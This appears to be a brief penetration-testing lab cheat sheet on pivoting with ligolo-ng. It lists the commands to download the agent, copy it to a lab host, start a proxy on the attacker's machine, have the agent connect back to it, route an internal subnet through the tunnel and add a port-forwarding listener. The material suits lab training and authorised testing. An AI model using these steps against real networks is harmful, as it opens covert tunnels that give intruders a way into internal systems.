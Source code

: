 ligolo
agent download
```
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.5.2/ligolo-ng_agent_0.5.2_linux_amd64.tar.gz
tar -xzvf ligolo-ng_agent_0.5.2_linux_amd64.tar.gz
```

upload agent
```
scp ./agent offsec@192.168.219.120:/home/offsec/
```

proxy start
```
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

connect to proxy
```
.\agent -connect 192.168.45.167:11601 -ignore-cert
```

start session
```
session
```

add route (another terminal)
```
sudo ip route add 172.16.219.0/24 dev ligolo
```

ligolo-ng start
```
start
```


```
listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:8000
```
